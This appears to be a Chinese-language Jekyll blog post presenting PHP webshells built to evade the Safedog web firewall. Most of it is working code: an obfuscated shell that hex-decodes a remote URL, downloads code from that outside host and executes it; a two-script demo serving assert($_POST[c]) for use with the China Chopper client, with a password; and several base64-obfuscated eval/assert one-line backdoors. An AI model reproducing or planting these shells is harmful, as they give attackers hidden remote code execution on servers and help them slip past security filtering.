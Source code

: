 ```yaml
---
title: php webshell
author: tank96a
layout: post
categories:
  - article
tags:
  - php
  - webshell
---
```


  研究了一下过狗原理，自己写了个一句话。

过狗php大马一枚,有人翻译如下，省了我不少事。
{% highlight php %}
<?php 
define('iphp','oday');
define('T','H*');
define('A','call');
define('B','user');
define('C','func');
define('D','create');
define('E','function');
define('F','file');
define('F1','get');
define('F2','contents');
define('P','pack');
$p = P;  //pack
$call = sprintf('%s_%s_%s',A,B,C); //call_user_func
$create = sprintf('%s_%s',D,E);    //create_function
$file = sprintf('%s_%s_%s',F,F1,F2); //file_get_contents 远程文件读取
$t = array('6','8','7','4','7','4','7','0','3','a','2','f','2','f','6','4','6','f','6','4','6','f','6','4','6','f','6','d','6','5','2','e','7','3','6','9','6','e','6','1','6','1','7','0','7','0','2','e','6','3','6','f','6','d','2','f','6','7','6','5','7','4','6','3','6','f','6','4','6','5','2','e','7','0','6','8','7','0','3','f','6','3','6','1','6','c','6','c','3','d','6','3','6','f','6','4','6','5');
//$call($create(null,$p(T,$file($p(T,join(null,$t))))));
call_user_func(create_function(null,pack('H*',file_get_contents(pack('H*',join(null,$t))))));
?>
{% endhighlight %}

{% raw %}
<pre>
写了两个脚本webshell.php和getcode.php(本地开了个php server，运行getcode.php模拟远程服务器上的网页)
原理：首先用菜刀访问webshell.php，该webshell立即从远程服务器上获取要运行的代码并执行。
这里获取的代码是61737365727428245f504f53545b635d293b，也就是assert($_POST[c]);
菜刀中设置：http://192.168.1.102/DebugPHP/webshell.php 密码是c
</pre>
{% endraw %}

两个脚本代码如下：
{% highlight php %}
<?php 
//webshell.php
//echo pack('H*', base_convert('0011000000111010', 2, 16));
//echo pack('H*', '61737365727428245f504f53545b635d293b');
//call_user_func(create_function(null,'echo (1+2);'));
//call_user_func(create_function(null,'assert($_POST[c]);'));

$url='http://localhost/DebugPHP/getcode.php?call=code';
call_user_func(create_function(null,pack('H*',file_get_contents($url))));
?>

<?php
//getcode.php    
//assert($_POST[c]);
$cmd=$_GET['call'];
if ($cmd=='code')  
   echo sprintf('61737365727428245f504f53545b635d293b');
?>
{% endhighlight %}

{% raw %}
<pre>
其他一句话：
<?php $x=base64_decode("YXNzZXJ0");$x($_POST['c']);?>
<?php call_user_func(create_function(null,'assert($_POST[c]);'));?>

//口令是： door
<?php eval(base64_decode(ZXZhbChiYXNlNjRfZGVjb2RlKFpYWmhiQ2hpWVhObE5qUmZaR1ZqYjJSbEtFeDVPRGhRTTBKdlkwRndiR1J0Um5OTFExSm1WVVU1VkZaR2RHdGlNamw1V0ZOclMweDVPQzVqYUhJb05EY3BMbEJuS1NrNykpOw));?>
</pre>
{% endraw %}

php函数参考网站：
[create_function](http://php.net/manual/en/function.create-function.php)
[pack](http://php.net/manual/en/function.pack.php)

